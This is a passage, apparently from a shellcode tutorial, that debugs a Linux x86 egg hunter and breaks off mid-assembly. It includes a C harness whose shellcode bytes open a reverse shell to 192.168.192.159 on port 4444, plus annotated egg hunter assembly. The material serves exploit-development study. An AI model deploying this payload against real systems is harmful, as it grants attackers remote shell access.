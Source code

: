 When we compile it, extract opcode and use opcode within following skeleton C code the Egg Hunter is working but unfortunately not every time. In some cases Egg Hunter crashes.
```
#include <stdio.h>

unsigned char egghunter[]= "\xbf\x77\x30\x30\x74\x31\xc9\x31\xd2\x42\x31\xc0\xb0\x21\x8d\x1a\xcd\x80\x3c\xf2\x74\xf3\x39\x3a\x75\xef\x39\x7a\x04\x75\xea\x83\xc2\x08\xff\xe2";
unsigned char shellcode[] = "\x77\x30\x30\x74\x77\x30\x30\x74\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{
        int (*ret)() = (int(*)())egghunter;
        printf("Size of egghunter: %d bytes.\n", sizeof(egghunter)); 
        ret();
}
```
  
By using GDB it can be concluded that checking access to only address stored in EDX is not always enough as current address in EDX can be accessible to Egg Hunter but EDX+8 address may not be accessible.  
To mitigate this issue we can verify if address from EDX is accessible and if address EDX+8 is also accessible.  
Next attempt...

```
global _start

section .text
_start:

MOV EDI, 0x74303077 

XOR ECX, ECX                  ; clear ECX - ECX is used as second argument to access syscall (0)
XOR EDX, EDX                  ; clear EDX - EDX will be used to store current address, starting with 0

NEXT_ADDRESS:                 ; label used for looping
  INC EDX                     ; increase EDX by 1

XOR EAX, EAX                  ; EAX is used for access syscall number (0x21)
MOV AL, 0x21                  ; move access syscall number in EAX
LEA EBX, [EDX]                ; move EDX address to EBX as first argument to access syscall
INT 0x80                      ; interrupt (syscall 0x21)
CMP AL, 0xF2                  ; compare access syscall result in EAX with 0xF2 which represent EFAULT
JZ SHORT NEXT_ADDRESS         ; if address not accessible jump to NEXT_ADDRESS         

XOR EAX, EAX                  ; EAX is used for access syscall number
MOV AL, 0x21                  ; access syscall number
LEA EBX, [EDX+8]              ; move EDX+8 address to EBX as first argument to access syscall
INT 0x80                      ; interrupt (syscall 0x21)
CMP AL, 0xF2                  ; check for EFAULT
JZ SHORT NEXT_ADDRESS         ; if not accessible jump to NEXT_ADDRESS         
              
CMP [EDX], EDI                ; if accessible then Compare 4 bytes with w00t
JNZ SHORT NEXT_ADDRESS        ; if w00t not found, jump to NEXT_ADDRESS

CMP [EDX+4], EDI              ; if w00t found, compare next 4 bytes with w00t 
JNZ SHORT NEXT_ADDRESS        ; if second w00t not found, jump to NEXT_ADDRESS

ADD EDX, 0x8                  ; if two eggs are found, increase ECX + 8         
```